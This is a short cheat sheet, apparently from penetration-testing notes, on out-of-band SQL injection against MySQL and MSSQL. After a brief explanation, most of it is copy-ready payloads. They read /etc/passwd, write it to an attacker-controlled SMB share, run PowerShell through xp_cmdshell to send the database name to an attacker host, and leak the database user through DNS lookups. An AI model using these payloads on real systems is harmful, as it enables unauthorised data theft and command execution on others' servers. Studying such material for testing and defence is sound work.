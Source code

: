 - **Key Requirements for Out-of-Band SQLi:**
	- **Network Access:** The database server must have outbound network connectivity, allowing it to communicate with external systems over DNS, HTTP, or other protocols.
	- **Database Functions:** The database must support functions that enable network communication, such as `LOAD_FILE()`, `UTL_HTTP`, or `XP_FILEEXIST`.

### How Out-of-Band SQLi Works

1. **Injection:** An attacker injects SQL code to trigger an out-of-band communication.
2. **Execution:** The database server executes the crafted SQL query.
3. **Result Retrieval:** The attacker retrieves the results through a separate channel, such as a DNS or HTTP request.

### Out-of-Band SQLi
Use alternative channels (like HTTP or DNS) to extract data. This query attempts to read a file from the server and write its contents to an external file, which could then be accessed by the attacker.

```
' UNION SELECT load_file('/etc/passwd') INTO OUTFILE '/tmp/output.txt' --
```


#### Out-of-Band SQLi Types

- **Extracting Data via DNS (MySQL):** This query attempts to read a file from the server and write its contents to a remote SMB share controlled by the attacker.

```
' UNION SELECT LOAD_FILE('/etc/passwd') INTO OUTFILE '\\\\<attack_ip>\\share\\output.txt' -- 
```
   
- **Out-of-Band Data Extraction via HTTP (MSSQL):** This payload uses `xp_cmdshell` to execute a PowerShell command that sends the database name to an external server controlled by the attacker.

```
'; EXEC master..xp_cmdshell 'powershell Invoke-WebRequest -Uri http://<attack_ip>/data?db_name=' + (SELECT DB_NAME()) -- 
```

- **Exfiltrating Data via DNS Lookup (MySQL):** This payload attempts to exfiltrate the `/etc/passwd` file by sending its contents via a DNS query to the attacker’s controlled server.

```
'; SELECT load_file('/etc/passwd') INTO DUMPFILE '\\\\\\<attack_ip>\\\\data' -- 
```

- **Using Out-of-Band Channels to Extract Data:** This payload attempts to send the database user information via a DNS request to a domain controlled by the attacker.

```
' AND LOAD_FILE(CONCAT('\\\\', (SELECT user()), '.<attacker_ip>\\null')) --
```

# SQLi Payloads 

## [[P3306 MySQL]]
